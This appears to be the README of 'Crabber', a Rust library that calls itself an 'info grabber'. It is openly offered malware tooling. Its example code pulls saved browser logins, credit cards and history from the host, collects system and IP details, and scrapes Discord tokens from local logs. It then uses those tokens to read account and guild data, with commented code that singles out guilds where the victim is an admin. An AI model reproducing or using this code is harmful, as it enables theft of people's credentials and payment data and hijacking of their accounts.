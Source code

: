 
# Crabber

An info grabber library written in rust (still in early stages)


## Features

- discord
    - tokens
    - user info
- browser
    - login datas
    - credit cards
    - history
- system
    - User info
    - ip info

more features will be added in near future


## Examples
```toml
[dependencies]
crabber = { git = "https://github.com/crabman17/crabber.git", features = ["all"] }
```
### browser
```rust
use crabber::Browser;
    
let mut browser_data = Browser::new();
browser_data.refresh_all().unwrap();

println!("{:#?}", browser_data.get_logins());
println!("{:#?}", browser_data.get_creditcards());
println!("{:#?}", browser_data.get_browser_history());
```

### system
```rust
use crabber::system;

// if these function fail, they will output string
println!("{}", system::get_realname());
println!("{}", system::get_username());
println!("{}", system::get_hostname());
println!("{}", system::get_devicename());
```

### discord
This asynchronous example uses [Tokio](https://tokio.rs), So make sure to add it in your `Cargo.toml`
```rust
#[tokio::main]
async fn main () {

    use crabber::discord::{
        Client,
        grabber
    };
    // this need 
    // capturing tokens from local logs
    // [the Set will be empty if it couldn't find any tokens]
    let tokens = grabber::capture_tokens_from_logs().unwrap();

    let mut client = Client::new(String::new()); 

    for token in tokens {
        client.set_token(token);
        if client.is_token_valid().await.is_ok() {

            let user = client.get_user().await.unwrap();
            println!("{:#?}", user);

            let guilds = client.get_guilds().await.unwrap();
            println!("{:#?}", guilds);

            // use crabber::discord::Guild;
            // let hq_guilds: Vec<Guild> = guilds
            //     .into_iter()
            //     .filter(|g| {
            //         g.is_admin()
            //     })
            //     .collect();

            // if hq_guilds.is_empty() {
            //     println!("no hq guild found");
            // } else {
            //     println!("Hq Guild -> {:#?}", hq_guilds);
            // }
        }
    }
}
```

### ip 
This is also asynchronous
```rust
#[tokio::main]
async fn main() {
    let ip_info = crabber::ip::get_ip_info().await.unwrap();
    println!("{:#?}", ip_info);
}
```